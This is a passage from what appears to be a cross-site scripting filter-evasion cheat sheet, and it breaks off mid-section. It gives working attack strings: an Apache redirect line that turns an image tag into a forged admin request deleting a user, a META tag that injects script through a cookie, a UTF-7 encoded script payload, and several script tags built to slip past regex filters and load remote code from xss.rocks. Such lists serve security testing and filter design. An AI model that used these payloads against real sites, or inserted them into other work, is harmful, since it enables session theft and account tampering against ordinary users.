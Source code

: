 This is more scary because there are absolutely no identifiers that make it look suspicious other than it is not hosted on your own domain. The vector uses a 302 or 304 (others work too) to redirect the image back to a command. So a normal `<IMG SRC="httx://badguy.com/a.jpg">` could actually be an attack vector to run commands as the user who views the image link. Here is the .htaccess (under Apache) line to accomplish the vector (thanks to Timo for part of this):

    Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser

## Cookie manipulation

Admittedly this is pretty obscure but I have seen a few examples where `<META` is allowed and you can use it to overwrite cookies. There are other examples of sites where instead of fetching the username from a database it is stored inside of a cookie to be displayed only to the user who visits the page. With these two scenarios combined you can modify the victim's cookie which will be displayed back to them as JavaScript (you can also use this to log people out or change their user states, get them to log in as you, etc...):

    <META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">

## UTF-7 encoding

If the page that the XSS resides on doesn't provide a page charset header, or any browser that is set to UTF-7 encoding can be exploited with the following (Thanks to Roman Ivanov for this one). Click here for an example (you don't need the charset statement if the user's browser is set to auto-detect and there is no overriding content-types on the page in Internet Explorer and Netscape 8.1 in IE rendering engine mode). This does not work in any modern browser without changing the encoding type which is why it is marked as completely unsupported. Watchfire found this hole in Google's custom 404 script.:

    <HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-

## XSS using HTML quote encapsulation

This was tested in IE, your mileage may vary. For performing XSS on sites that allow `<SCRIPT>` but don't allow `<SCRIPT SRC...` by way of a regex filter `/\<script\[^\>\]+src/i`:

    <SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

For performing XSS on sites that allow `<SCRIPT>` but don't allow `\<script src...` by way of a regex filter `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` (this is an important one, because I've seen this regex in the wild):

    <SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

Another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`:

    <SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>

Yet another XSS to evade the same filter, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i`. I know I said I wasn't goint to discuss mitigation techniques but the only thing I've seen work for this XSS example if you still want to allow `<SCRIPT>` tags but not remote script is a state machine (and of course there are other ways to get around this if they allow `<SCRIPT>` tags):

    <SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>

And one last XSS attack to evade, `/\<script((\\s+\\w+(\\s\*=\\s\*(?:"(.)\*?"|'(.)\*?'|\[^'"\>\\s\]+))?)+\\s\*|\\s\*)src/i` using grave accents (again, doesn't work in Firefox):
